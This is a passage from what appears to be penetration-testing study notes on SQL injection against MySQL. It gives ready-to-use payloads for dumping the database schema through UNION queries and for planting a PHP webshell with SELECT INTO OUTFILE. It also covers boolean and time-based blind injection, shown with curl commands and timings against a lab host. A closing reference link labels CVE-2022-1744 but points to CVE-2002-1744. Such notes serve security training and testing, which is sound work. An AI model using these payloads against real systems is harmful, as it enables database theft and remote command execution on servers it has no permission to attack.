 Finally, gather whatever data from the database you desire. Start with understanding the schema:

```sql
-- getting table schema info
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- #
```

Additionally, you can get code execution on MySQL by creating a webshell with SELECT INTO OUTFILE:

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>",null,null,null,null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- #
```

This requires file write permissions in the database and on disk.
It may throw an error when executing the query, but
the file can still be written to disk. Check to see.

MySQL and MSSQL have other code execution possibilities as well. Refer to those sections.


#### 2.6.3.2 Blind SQLi

Two types of attack methods: boolean and time-based.
Boolean requires (visible) change in output on success vs. failure.
Time-based uses injected sleep on success to detect it.

Boolean:
Use AND operator to test if pre-condition is true. Base primitive:

```
' and 1=1 -- #
```

Then you build out what you know by brute force. Example: given you know 'admin'
user is in database, you can build query to determine database name one letter
at a time, watching for when 'admin' is in output or not:

```
# database name 'offsec'
admin' and database() like 'o%' and 1=1 -- #  <-- succeeds
admin' and database() like 'p%' and 1=1 -- #  <-- fails

# more complex, using binary search for ascii values at each position
admin' and substr(database(),2,1)<'f' and 1=1 -- #
```

Time-based:
Inject sleep call after AND operator that tests if condition is true. Base primitive, causing 3 second sleep on success:

```
' AND IF (1=1, sleep(3),'false') -- #
```

Example (using time utility helps measure difference):

```sh
# success is slow (offsec user found in lookup)
❯ time curl -s "http://192.168.201.16/blindsqli.php?user=$(urlencode "offsec' AND IF (1=1, sleep(1),'false') -- #")" &> /dev/null
curl -s  &> /dev/null  0.02s user 0.00s system 1% cpu 2.258 total
#                                                     ^^^^^

# failure is fast
❯ time curl -s "http://192.168.201.16/blindsqli.php?user=$(urlencode "NOPE' AND IF (1=1, sleep(1),'false') -- #")" &> /dev/null
curl -s  &> /dev/null  0.01s user 0.01s system 14% cpu 0.180 total
#                                                      ^^^^^
```


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744